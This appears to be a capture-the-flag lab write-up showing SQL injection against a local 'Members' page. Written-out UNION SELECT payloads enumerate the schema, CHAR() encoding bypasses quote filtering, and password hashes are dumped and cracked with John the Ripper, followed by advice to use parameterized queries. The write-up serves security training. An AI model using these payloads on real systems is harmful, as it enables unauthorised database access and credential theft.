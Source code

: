 ## [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)

On the [Members](http://localhost:8080/?page=member) page, there is an input field to search for members by ID. For example, with input `3`, we get:

```
ID: 3
First name: three
Surname : me
```

The first thing to try in any input field is an SQL injection.

Trying `'` as the input, we get the following output: `You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1`. This confirms that we are directly querying the database, without proper input validation.

Since the output has 2 fields, we can try an `UNION` statement such as `42 UNION SELECT table_name, table_type FROM information_schema.tables--`, which shows all the columns from all the tables:

```
ID: 42 UNION SELECT table_name, table_type FROM information_schema.tables--
First name: CHARACTER_SETS
Surname : SYSTEM VIEW

...

ID: 42 UNION SELECT table_name, table_type FROM information_schema.tables--
First name: CLIENT_STATISTICS
Surname : SYSTEM VIEW

...

ID: 42 UNION SELECT table_name, table_type FROM information_schema.tables--
First name: users
Surname : BASE TABLE
```

To get the columns from the table `users` only, we tried the following command: `42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users'`, which gives the following output: `You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'users\'' at line 1`. It looks like the server has very basic protection with quotes.

We can bypass it by creating the string with the SQL `CHAR` function: `42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)`. It works and we get the following columns:

```
ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : user_id

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : first_name

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : last_name

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : town

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : country

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : planet

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : Commentaire

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)
First name:
Surname : countersign
```

We query all the columns, `Commentaire` and `countersign` seem to be the most interesting. `42 UNION SELECT Commentaire, countersign FROM users--` →

```
ID: 42 UNION SELECT Commentaire, countersign FROM users--
First name: Je pense, donc je suis
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9

ID: 42 UNION SELECT Commentaire, countersign FROM users--
First name: Aamu on iltaa viisaampi.
Surname : 60e9032c586fb422e2c16dee6286cf10

ID: 42 UNION SELECT Commentaire, countersign FROM users--
First name: Dublin is a city of stories and secrets.
Surname : e083b24a01c483437bcf4a9eea7c1b4d

ID: 42 UNION SELECT Commentaire, countersign FROM users--
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

We create a file in the format expected by John the Ripper: `user:5ff9d0165b4f92b14994e5c685cdce28`

and after using john the ripper :

```console
$ john --format=Raw-MD5 sql_injection_members/resources/countersign
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=20
Proceeding with single, rules:Single
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
Almost done: Processing the remaining buffered candidate passwords, if any.
0g 0:00:00:00 DONE 1/3 (2025-05-24 14:42) 0g/s 49550p/s 49550c/s 49550C/s User1909..User1900
Proceeding with wordlist:/tmp/tmpmu9v917t/password.lst
Enabling duplicate candidate password suppressor
Disabling duplicate candidate password suppressor
FortyTwo         (user)
1g 0:00:00:28 DONE 2/3 (2025-05-24 14:42) 0.03455g/s 15335Kp/s 15335Kc/s 15335KC/s YankeE23..PitchEr1
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Now we we lower case to: `fortytwo` and encode it using SHA256 as asked:

```console
$ echo -n fortytwo | sha256sum
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5  -
```

To defend against SQL injections, use parameterized queries (also known as prepared statements) everywhere so the driver, not your code, handles quoting and type-checking. Escaping tricks like replacing quotes only give a false sense of security—an attacker will just switch to `0x`, `CHAR()` or similar tricks.
